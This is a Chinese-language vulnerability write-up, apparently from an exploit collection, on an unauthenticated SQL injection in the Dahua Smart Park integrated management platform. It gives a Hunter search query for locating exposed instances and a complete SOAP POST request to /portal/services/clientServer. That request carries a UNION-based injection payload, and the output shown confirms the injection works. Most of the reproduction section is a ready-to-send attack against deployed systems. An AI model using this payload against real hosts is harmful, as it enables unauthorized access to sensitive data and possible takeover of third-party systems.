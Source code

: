 # 大华智慧园区综合管理平台getGroupInfoListByGroupId SQL注入漏洞

# 一、漏洞简介
  “大华智慧园区综合管理平台”是一款综合管理平台，具备园区运营、资源调配和智能服务等功能。平台意在协助优化园区资源分配，满足多元化的管理需求，同时通过提供智能服务，增强使用体验。大华智慧园区综合管理平台未对用户的输入进行有效的过滤，直接将其拼接进了SQL查询语句中，导致系统出现SQL注入漏洞。远程未授权攻击者可利用此漏洞获取敏感信息，进一步利用可能获取目标系统权限。

# 二、影响版本
+ 大华智慧园区综合管理平台

# 三、资产测绘
+ hunter：`app.name="Dahua 大华 智慧园区管理平台"`

![1691829123219-724bd409-5d1c-4593-88e9-2990fef366ad.png](./img/HyCfpnh12vPSlAOZ/1691829123219-724bd409-5d1c-4593-88e9-2990fef366ad-892669.png)

+ 登录页面：

![1691828319702-85171e4b-cb4b-4826-a654-3c8859b17138.png](./img/HyCfpnh12vPSlAOZ/1691828319702-85171e4b-cb4b-4826-a654-3c8859b17138-055362.png)

# 四、漏洞复现
```plain
POST /portal/services/clientServer HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
SOAPAction: 
Content-Type: text/xml;charset=UTF-8
Host: {hostname}
Content-Length: 509

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:cli="http://clientServer.webservice.dssc.dahua.com">
   <soapenv:Header/>
   <soapenv:Body>
      <cli:getGroupInfoListByGroupId>
         <!--type: string-->
         <arg0>5398) UNION ALL SELECT 5336,5336,5336,5336,CONCAT(0x7178787a71,IFNULL(CAST(111*111 AS NCHAR),0x20),0x7171717871)-- -</arg0>
         <!--type: long-->
         <arg1>10</arg1>
      </cli:getGroupInfoListByGroupId>
   </soapenv:Body>
</soapenv:Envelope>
```

![1702740228771-97951741-ca39-45d7-9bbe-523aec3c6b2d.png](./img/HyCfpnh12vPSlAOZ/1702740228771-97951741-ca39-45d7-9bbe-523aec3c6b2d-553522.png)

```plain
qxxzq12321qqqxq
```



> 更新: 2024-02-29 23:57:18  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/mwwzf1bqn91wm5nk>